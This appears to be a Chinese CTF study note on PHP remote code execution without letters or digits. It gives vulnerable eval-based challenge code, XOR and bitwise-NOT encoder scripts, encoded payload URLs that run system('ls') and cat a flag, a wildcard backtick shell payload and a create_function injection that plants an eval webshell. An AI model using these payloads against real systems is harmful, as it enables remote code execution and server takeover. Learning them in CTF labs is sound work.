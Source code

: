 ```yaml
---
title: 20241210CTF学习笔记8
date: 2024-12-10
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true













---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始视频学习的第7天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第7章：无字母RCE和create_function

## 无字母RCE

#### 例题（php7）

```php
<? php 
	if(isset($_GET['code']){
        $code=$_GET['code'];
        if(preg_match("/[a-z0-9]+/i",$code)){
            die("NO.");
        }
        eval($code);
    }else{
        highlight_file(__FILE__);
    }
?>
```

在php7里，我们想要执行一个命令，但这个命令没法包含字母和数字，需要一个变换的思想，把字母和数字变换为不是字母和数字的形式，用的是位运算-异或运算，以下是方法：

### 异或

```php
<?php
    $a = "phpinfo";
    for($i=0;$i<strlen($a);$i++){	
        echo "%".dechex(ord($a[$i])^0xff);
    }
    echo "^";
    for ($i = 0; $i <strlen($a); $i++){
        echo "%ff";
    }
?>
```

此外，我们需要知道一个php的特性：函数的动态调用

```php
//1.在上次讲了变量覆盖，涉及到了函数的动态调用
extract($_GET['arr']);
@$d($_POST['0']);

//2.这次我们换一种方式做函数的动态调用，用括号把字符串包起来，相当于调用同名函数
("phpinfo")()
("php"."info")()
```

我们回到刚才的例题，我们给地址加上以下payload，就会执行phpinfo的命令：

```
http://127.0.0.1:1234/php7_rce_php?code=(%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();
```

同理，我们用刚刚提到的php方法，将phpinfo改为system，替换掉payload的位置，同时也对ls或者是cat flag执行异或操作，就能得到如下请求：

```
http://127.0.0.1:1234/php7_rce_php?code=(%8c%86%8c%8b%9a%92^%ff%ff%ff%ff%ff%ff)(%93%8c^%ff%ff);
```



### 取反

```php
<?php
$a="phpinfo";
echo "~(";
for($i=0;$i<strlen($a);$i++){
    echo "%".bin2hex(~$a[$i]);
}
echo ")";
```

和上边的异或方法相同，我们对phpinfo取反后，得出如下请求：

```
http://127.0.0.1:1234/php7_rce_php?code=(~(%8f%97%8f%96%91%99%90))();
```

如果我们不想要里边儿的这一层括号可以直接删除，得到如下请求，效果相同：

```
http://127.0.0.1:1234/php7_rce_php?code=(~%8f%97%8f%96%91%99%90)();
```

同理我们可以对system和ls进行取反



### 总结

取反和异或是比较基础和常用的绕过无字母和数字的webshell



### 进阶例题

```php
<?php
	error_report(0);
	//flag.php
	if(isset($_GET['code'])){
        $code=$_GET['code'];
        if(strlen($code)>18){
            die("You are really long, buti dont like more than 18cm");
        }
        if(preg_match("/\w/",$code)){
            die("i dislike it");
        }
        if(preg_match("/&|\||\^|\~|\!/",$code)){
            die("stop calculating");
        }
        if(preg_match("/\(|\)/",$code)){
            die("call function is not safe");
        }
        if(preg_match("/|{|\}|][|\]",$code)){
            die("fxcking brackets");
        }
        if(preg_match("/\\$|@|\。/",$code)){
            die("1 dou bu gei wo");
        }
        eval($code)//I believe that those noob hackers cannot hack me
    }
>
```

1. 长度不能大于18
2. \w表示字母数字下划线不能有
3. &与、|或、^异或、!非    以上都不能有
4. 不能有()括号
5. 不能有{}大括号[]中括号
6. 不能有$、@、.等符号

我们只需要做一个这样的访问请求即可：

```
http://127.0.0.1:1234/?code=?><?=`/???/???%20*`;
```

1. 这个意思是?>把php结束掉，然后<?开始一个新的php
	
> php这三个字母就是php短标签short_tag

2. <?=	表示	<? echo
3. 反引号	·	表示	执行系统命令shell_exec
4. 星号	*	表示	任意长度的任意字符
5. 问号	?	表示	单个长度的任意字符（问号匹配到了太多东西，所以执行后会有很多乱码）
6. %20	表示	空格 

最后我们执行了很多的命令，其中最重要的一条其实是

```php
shell_exec(/bin/cat/ flag);
```





## create_function

### 定义和用法：

create_function()函数有两个参数$args和$code，用于创建一个lambda样本的函数。

```php
$code = "return($a+$b);}eval($_POST['Flag']);//"
$f=create_function('$a,$b',$code);

//相当于得到：
function f($a,$b){
	return $a+$b
}
eval($_POST['Flag']);
//}
```

创建函数的过程中存在一个代码注入的漏洞，我们的思路是用花括号先把函数闭合掉，然后再把最后原本的花括号注释掉，中间用eval()函数写一个木马

